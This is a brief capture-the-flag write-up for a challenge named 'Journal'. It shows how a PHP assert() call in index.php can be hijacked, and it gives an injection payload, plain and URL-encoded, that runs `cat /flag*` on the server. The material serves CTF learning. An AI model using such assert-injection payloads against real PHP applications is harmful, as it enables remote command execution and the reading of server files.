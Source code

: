 # Journal

## Problem

dear diary, there is no LFI in this app

## Solution

from the following line in index.php

```php
assert("strpos('$file', '..') === false") or die("Invalid file!");
```

we can override the checking using the following input: `',die(`cat /flag*`));//`

the above input will make the checking do the following: `strpos('',die(`cat /flag*`));//', '..') === false") or die("Invalid file!`

The following encoded input will output the flag: `%27,die(`cat%20/flag*`));//`